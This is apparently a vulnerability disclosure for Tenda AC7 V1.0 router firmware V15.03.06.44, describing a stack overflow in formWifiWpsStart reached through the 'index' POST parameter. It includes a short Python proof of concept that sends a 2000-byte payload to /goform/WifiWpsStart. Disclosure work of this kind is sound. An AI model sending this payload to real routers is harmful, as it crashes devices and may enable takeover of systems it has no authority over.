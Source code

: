 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

In the Tenda AC7V1.0 V15.03.06.44 firmware has a stack overflow vulnerability in the `formWifiWpsStart` function. The `index` variable receives the `index` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `index` can trigger this security vulnerability.

![image-20240309195802781](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309195802781.png)

![image-20240309195638707](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309195638707.png)

![image-20240313154044142](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313154044142.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WifiWpsStart"
payload = b"a"*2000

data = {"index": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240318164614614](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318164614614.png)